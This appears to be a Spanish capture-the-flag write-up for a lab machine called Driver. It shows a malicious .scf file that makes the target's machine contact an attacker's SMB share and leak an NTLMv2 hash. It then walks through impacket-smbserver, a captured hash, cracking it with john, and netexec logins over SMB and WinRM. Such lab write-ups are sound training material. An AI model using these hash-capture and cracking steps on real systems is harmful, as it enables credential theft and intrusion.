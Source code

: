 **``data.scf``**
```shell
[Shell]
Command=2
IconFile=\\10.10.14.21\share\no-existe-este-icono.ico
[Taskbar]
Command=ToggleDesktop
```

De esta manera simplemente montamos un **servidor SMB** y subimos el archivo esperando que el supervisor lo abra para recibir su **Hash**.

- **``impacket-smbserver smbFolder $(pwd) -smb2support``**

![[Imagenes/Driver/D 1.png]]

De esta forma podríamos intentar crackear dicho hash para obtener la contraseña.

Para crackear la contraseña utilizaremos **``john``** con el diccionario de ``rockyou.txt``. Para esto crearemos un archivo llamado **``hash``** con el contenido completo del Hash que obtuvimos.

**``hash``**
```
tony::DRIVER:aaaaaaaaaaaaaaaa:8705fc42d93578a0c2fcb6f4a5fcb8a7:010100000000000080a0afd96252db0171f8878f49ad03de0000000001001000760078007200450068006800740057000300100076007800720045006800680074005700020010004500520046004e007700520064006f00040010004500520046004e007700520064006f000700080080a0afd96252db0106000400020000000800300030000000000000000000000000200000115e76a6b26a14e5d702fb0d64a93def1ef9c7a52a173029cb6f5cbd21c0adfe0a001000000000000000000000000000000000000900200063006900660073002f00310030002e00310030002e00310034002e0032003100000000000000000000000000
```

Luego pasaremos dicho archivo a la herramienta.

- **``john -w:/usr/share/wordlists/rockyou.txt hash``**

![[Imagenes/Driver/D 2.png]]

La contraseña del usuario sería **``tony:liltony``** por lo tanto podemos autenticarnos.

------
### WINRM Authentication a través de ``evil-winrm``

Previamente a través del escaneo con ``nmap`` detectamos que el **puerto 5985** estaba abierto, este puerto corresponde por defecto a **``WinRM``** que se utiliza para comunicarse con un equipo remoto, por lo tanto primero verificaremos que las credenciales sean válidas con **``netexec``**, recordemos que esta herramienta es idéntica a **``crackmapexec``** y si todo es correcto nos autenticaremos.

- **``netexec smb 10.10.11.106 -u tony -p liltony``**

![[Imagenes/Driver/D 3.png]]

El **``[+]``** indica que son válidas, por lo tanto la credencial es correcta. Como vimos que **``WinRM``** estaba habilitado probaremos autenticarnos con estas mismas credenciales a ese servicio.

- **``netexec winrm 10.10.11.106 -u tony -p liltony``**

